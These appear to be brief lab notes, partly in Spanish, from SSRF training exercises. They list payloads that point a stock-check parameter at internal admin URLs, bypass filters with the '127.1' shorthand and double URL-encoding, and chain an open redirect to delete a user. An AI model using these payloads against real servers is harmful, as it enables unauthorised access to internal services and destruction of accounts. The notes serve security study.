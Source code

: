 # Server-side request forgery (SSRF) attacks

'''bash
stockApi=http://localhost/admin/delete?username=carlos
```

Usar Intruder (Burp) para atacar un rango de IPs
'''bash
http://192.168.0.171:8080/admin/delete?username=carlos
```

'''bash
stockApi=http://127.1/admin
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

'''bash
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
